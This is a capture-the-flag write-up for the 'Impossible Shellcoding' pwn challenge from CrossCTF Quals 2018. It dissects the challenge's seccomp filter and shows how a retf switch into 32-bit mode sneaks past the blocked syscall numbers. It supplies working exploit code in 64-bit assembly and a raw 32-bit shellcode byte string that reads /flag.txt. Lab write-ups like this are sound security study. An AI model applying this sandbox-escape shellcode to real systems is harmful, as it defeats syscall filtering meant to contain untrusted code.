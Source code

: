 # Impossible Shellcoding - CrossCTF Quals 2018 (pwn)

> The flag is at /flag.txt.
>
> nc ctf.pwn.sg 7123
>
> Creator - jarsp (@jarsp)

## Challenge
Opening this up in radare2, we can get the following pseudocode.
```
prctl(prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0));
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &seccomp_rules, 0, 0);
char* buffer = mmap(0x40404000, 0x1000, 7, 0x32);
read(0, &buffer, 0x100);

// runs the shellcode that was read into the buffer
void (*func)() = buffer;
func();
```

So, this is a shellcoding challenge, except that it is not so straightforward. There are 2 `prctl` calls that are designed to make our life difficult.

The first one prevents us from running the program as other users, by blocking set-user-id and set-group-id functions.

The second one sets up SECCOMP rules, which is a filter to block certain syscalls, based on the syscall number (K in the table below). Using [seccomp-tools](https://github.com/david942j/seccomp-tools), we can get the following table.

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x00 0xc000003e  /* no-op */
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x0c 0x00 0x40000000  if (A >= 0x40000000) goto 0016
 0004: 0x15 0x0b 0x00 0x00000002  if (A == open) goto 0016
 0005: 0x15 0x0a 0x00 0x00000101  if (A == openat) goto 0016
 0006: 0x15 0x09 0x00 0x00000055  if (A == creat) goto 0016
 0007: 0x15 0x08 0x00 0x0000003b  if (A == execve) goto 0016
 0008: 0x15 0x07 0x00 0x00000039  if (A == fork) goto 0016
 0009: 0x15 0x06 0x00 0x0000003a  if (A == vfork) goto 0016
 0010: 0x15 0x05 0x00 0x00000142  if (A == execveat) goto 0016
 0011: 0x15 0x04 0x00 0x00000038  if (A == clone) goto 0016
 0012: 0x15 0x03 0x00 0x00000065  if (A == ptrace) goto 0016
 0013: 0x15 0x02 0x00 0x0000009d  if (A == prctl) goto 0016
 0014: 0x15 0x01 0x00 0x0000009e  if (A == arch_prctl) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```

### SECCOMP
We see that `execve` and `execveat` are blocked, which means no shell for us. Ok.

As for ORW (open, read, write) capabilities, `open` and `openat` are blocked so we cannot do the typical procedure of `open`ing the file, `read`ing from the file into a buffer, then finally `write`ing the buffer into standard output. Great.

`fork`/`vfork`/`clone` are blocked, so we can't create new processes that are free of these seccomp restrictions.

There was a [writeup](https://github.com/yvrctf/2015/tree/master/babyplaypenfence) on a similar challenge, which uses the [x32 ABI](https://en.wikipedia.org/wiki/X32_ABI). How this works is we can syscall `0x40000000 + syscall_num_you_actually_want` to call the syscall and bypass seccomp, due to the x32 ABI of kernels. Sadly at line 0x003, any syscall greater than 0x40000000 is also blocked.

So far, the major problem is that open() and its variants can't be used, however `read`/`write` are still available so we do not need to worry about that.
There is another syscall called `open_by_handle_at` that I wanted to use, but for it to work the binary had to be root (I wasted 5 hours on this).

### retf
However, there is still one more trick - executing 32-bit code instead. 

In 32-bit code, we can use 32-bit syscalls (which have different syscall numbers) to bypass the seccomp filter, as the seccomp filter only blocks the syscall based on its number.

To run 32-bit code from 64-bit code, we can use the `retf` instruction which pops 2 values from the stack, the first being the next instruction address and the second being the new value of the CS (Code Segment) register. 

If the CS register becomes 0x33, it is executing 64-bit code, whereas if the CS register becomes 0x23, it is executing 32-bit code.

One important thing to take note is, since 32-bit code can only read the lower 32-bits from 64-bit registers, we have to make sure we reset the registers the shellcode uses to lower values (including the instruction pointer register!).

## Exploit
The exploit consists of two parts, firstly, 64-bit shellcode that does the following:
1. `mmap` with low addresses with RWX (read-write-exec) permissions
2. Read in 32-bit shellcode that opens the file and reads it into the `mmap`ed memory because the orginal binary only reads in 256 bytes - not enough!
3. `retf` to the mmap'ed memory to run the 32-bit shellcode

```
mmap = '''
xor rax, rax
mov al, 9
mov rdi, 0x602000
mov rsi, 0x1000
mov rdx, 7
mov r10, 0x32
mov r8, 0xffffffff
mov r9, 0
syscall'''

read = '''
mov rax, 0
xor rdi, rdi
mov rsi, 0x602190
mov rdx, 100
syscall'''

retf = '''
xor rsp, rsp
mov esp, 0x602160
mov DWORD PTR [esp+4], 0x23
mov DWORD PTR [esp], 0x602190
retf
'''

sc = mmap + read + retf
f = asm(sc)

p.sendline(f)
```

The second step is just to send in 32-bit shellcode to read the flag.

```
# Send 32-bit shellcode that open-reads the flag and writes to stdout
# Copied from http://shell-storm.org/shellcode/files/shellcode-73.php
p.sendline("\x31\xc0\x31\xdb\x31\xc9\x31\xd2"+
		   "\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"+
		   "\x80\x89\xc6\xeb\x06\xb0\x01\x31"+
		   "\xdb\xcd\x80\x89\xf3\xb0\x03\x83"+
		   "\xec\x01\x8d\x0c\x24\xb2\x01\xcd"+
		   "\x80\x31\xdb\x39\xc3\x74\xe6\xb0"+
		   "\x04\xb3\x01\xb2\x01\xcd\x80\x83"+
		   "\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"+
		   "\xff"+
		   "/flag.txt\x00")
```


Finally, `print(p.recv())` to get the flag.
